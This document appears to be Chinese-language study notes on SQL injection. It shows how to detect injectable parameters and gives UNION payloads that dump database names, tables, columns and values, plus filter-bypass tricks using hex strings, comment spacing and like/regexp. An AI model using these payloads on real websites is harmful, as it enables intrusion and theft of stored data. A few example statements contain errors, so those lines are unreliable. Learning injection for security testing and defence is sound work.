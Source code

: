 # SQL注入-查询注入

## 一、寻找注入点

- 在参数后面添加单引号或双引号，查看返回包，如果报错或者长度变化，可能存在Sql注入

- 通过构造get、post、cookie请求再相应的http头信息等查找敏感信息

- 通过构造一些语句，检测服务器中响应的异常

## 二、普通注入

### 1.数字型

- 加单引号，URL：xxx.xxx.xxx/xxx.php?id=3'；
  - 对应的sql：select * from table where id=3' 这时sql语句出错，程序无法正常从数据库中查询出数据，就会抛出异常；

- 加and 1=1 ，URL：xxx.xxx.xxx/xxx.php?id=3 and 1=1；
  - 对应的sql：select * from table where id=3' and 1=1 语句执行正常，与原始页面没有差异；

-  加and 1=2，URL：xxx.xxx.xxx/xxx.php?id=3 and 1=2；
  - 对应的sql：select * from table where id=3 and 1=2 语句可以正常执行，但是无法查询出结果，所以返回数据与原始网页存在差异；

### 2.字符型

- 加单引号：select * from table where name='admin''；
  - 由于加单引号后变成三个单引号，则无法执行，程序会报错；
- 加 ' and 1=1 此时sql 语句为：select * from table where name='admin' and 1=1' ，也无法进行注入，还需要通过注释符号将其绕过；
  - 因此，构造语句为：select * from table where name ='admin' and 1=--' 可成功执行返回结果正确；
- 加and 1=2— 此时sql语句为：select * from table where name='admin' and 1=2–'则会报错；

> 如果满足以上三点，可以判断该url为字符型注入。

- 判断列数：

  ```
  ?id=1' order by 4# 报错
  
  ?id=1' order by 3# 没有报错，说明存在3列
  
  爆出数据库：
  
  ?id=-1' union select 1,database(),3--+
  
  ?id=-1' union select 1,group_concat(schema_name),3 from information_schema.schemata#
  
  爆出数据表：
  
  ?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='数据库'#
  
  爆出字段：
  
  ?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='数据表'#
  
  爆出数据值：
  
  ?id=-1' union select 1,group_concat(0x7e,字段,0x7e),3 from 数据库名.数据表名--+
  
  拓展一些其他函数：
  
  system_user() 系统用户名
  
  user() 用户名
  
  current_user 当前用户名
  
  session_user()连接数据库的用户名
  
  database() 数据库名
  
  version() MYSQL数据库版本
  
  load_file() MYSQL读取本地文件的函数
  
  @@datadir 读取数据库路径
  
  @@basedir MYSQL 安装路径
  
  @@version_compile_os 操作系统
  
  多条数据显示函数：
  
  concat()、group_concat()、concat_ws()
  ```

## 三、绕过addslashes

### 1.绕过单引号

```
在MYSQL中将字符串转换为16进制：select hex('learn'), 得到learn的十六进制为6C6561726E；将十六进制转回字符串：unhex('6C6561726E')得到learn
where table_schema=0x6C6561726E and table_name=0x75736572 limit 0,1
```

### 2.绕过空格

- 用注释替换空格： /**/表示一个空格
- 括号绕过空格：select(user())from dual where(1=1)and(2=2)

### 3.绕过等号

- 使用like 、rlike 、regexp 或者 使用< 或者 >

### 四、Union查询不适用的情况

- 注入语句无法截断，且不清楚完整的SQL查询语句
- 页面不能返回查询信息的时候
- web页面中有两个查询语句，查询语句的列数不同